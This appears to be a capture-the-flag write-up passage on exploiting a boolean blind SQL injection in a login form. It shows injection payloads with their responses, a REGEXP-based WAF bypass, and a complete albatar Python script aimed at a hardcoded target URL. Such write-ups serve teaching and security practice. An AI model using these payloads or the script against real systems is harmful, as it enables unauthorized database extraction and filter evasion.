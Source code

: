 Turns out we actually have a boolean SQLi:
* `username=test'%2b(select*from(select('a'))a)#&password=` -> "welcome!!"
* `username=test'%2b(select*from(select('1'))a)#&password=` -> "Incorrect username or password or both??"

But the WAF is slightly annoying and because the `=` and `&` are blacklisted, I went with the REGEXP technique:
* `username=test'%2b(select*from(select(if(((select/**/'b')regexp/**/binary/**/'^b'),'a','1')))a)#` -> "welcome!!"
* `username=test'%2b(select*from(select(if(((select/**/'a')regexp/**/binary/**/'^b'),'a','1')))a)#` -> "Incorrect username or password or both??"

I wrote an exploit script using the [albatar](https://github.com/lanjelot/albatar) framework, which I specifically created to exploit intricate SQL injections.
```python
from albatar import *

PROXIES = {}#'http': 'http://127.0.0.1:8008', 'https': 'http://127.0.0.1:8008'}
HEADERS = ['User-Agent: Mozilla/5.0']

def test_state_grep(headers, body, time):
    if 'welcome!!' in body:
        return 1
    else:
        return 0 # 'Incorrect username or password or both??'

def bypass_waf(s):
    s = s.replace(' ', '/**/')
    return s

def mysql_boolean_regexp():

    def make_requester():
        return Requester_HTTP(
            proxies = PROXIES,
            headers = HEADERS,
            url = 'http://34.66.139.33/auth.php',
            body = "username=test${injection}&password=whatever",
            method = 'POST',
            response_processor = test_state_grep,
            tamper_payload = bypass_waf
        )
  
    # PoC: username=test'%2b(select*from(select(if(((select/**/'a')regexp/**/binary/**/'^b'),'a','1')))a)%23&password=
    template = "'+(select*from(select(if(((${query})regexp binary ${regexp}),'a','1')))a)#"
    return Method_regexp(make_requester, template, confirm_char=False)

sqli = MySQL_Blind(mysql_boolean_regexp())

for r in sqli.exploit():
    print(r)
```
